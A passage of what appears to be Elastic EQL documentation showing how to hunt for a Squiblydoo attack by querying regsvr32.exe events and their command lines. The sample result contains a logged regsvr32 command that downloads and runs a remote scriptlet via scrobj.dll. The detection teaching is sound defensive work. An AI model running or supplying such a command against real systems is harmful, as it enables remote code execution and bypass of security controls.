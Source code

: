 
## Check for command line artifacts [eql-ex-check-for-command-line-artifacts]

`regsvr32.exe` processes were associated with 143 events. But how was `regsvr32.exe` first called? And who called it? `regsvr32.exe` is a command-line utility. Narrow your results to processes where the command line was used:

```console
GET /my-data-stream/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
```
%  TEST[setup:atomic_red_regsvr32]

The query matches one event with an `event.type` of `creation`, indicating the start of a `regsvr32.exe` process. Based on the event’s `process.command_line` value, `regsvr32.exe` used `scrobj.dll` to register a script, `RegSvr32.sct`. This fits the behavior of a Squiblydoo attack.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
```